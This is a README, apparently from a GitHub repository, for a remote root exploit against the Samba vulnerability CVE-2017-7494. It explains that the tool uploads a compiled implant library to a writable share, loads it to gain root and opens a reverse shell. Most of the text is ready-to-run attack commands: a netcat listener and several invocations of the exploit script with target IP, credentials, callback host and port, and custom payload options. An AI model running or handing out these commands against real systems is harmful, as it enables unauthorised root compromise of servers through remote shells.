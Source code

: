 # CVE-2017-7494

Remote root exploit for the SAMBA CVE-2017-7494 vulnerability.

## Details

This exploit is divided in 2 parts:

 * First, it compiles a payload called "implant.c" and generates a library (libimplantx32.so or libimplantx64.so) that changes to the root user, detaches from the parent process and spawns a reverse shell.
 * Second, it finds a writeable share in the specified target host, uploads the library with a random name and tries to load it.

As long as the target is vulnerable and the payload is the correct for the target operating system and architecture, the exploit is 100% reliable.

## How to

In your machine, run the following command:

```
$ nc -p 31337 -l
```

Then, run the exploit against your target and wait until it connects back to your Netcat:

```
$ python cve_2017_7494.py -t target_ip
```

If you close too fast the reverse shell, instead of running again the exploit uploading the module, etc... you can just pass the path to the module it already uploaded. Supposing it was uploaded to /shared/directory/ as "module.so", you would run a command like the following one:

```
$ python cve_2017_7494.py -t target_ip -m /shared/directory/module.so
```


## UPDATE 11/25/2017 - Archivaldo

You can now run the exploit again samba 3.5.0 and 3.6.0, you just need add the argument -o 1
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -o 1 
```

You can now use your own custom .so
```
python cve_2017_7494.py -t target_ip -u test -P 123456 -o 1 --custom myso.so
```

In case you need to run this script from a x86 machine, compiling the implant binaries will create two x86 files. Using the flag -n 1 you can disable compilation and copy libimplantx64.so from another machine.
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

In case samba runs just on port 139. You can set the remote server port using the argument -p
```
python cve_2017_7494.py -t target_ip -p 139 -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

## NOTES

I do not support it anymore.

--
Joxean Koret
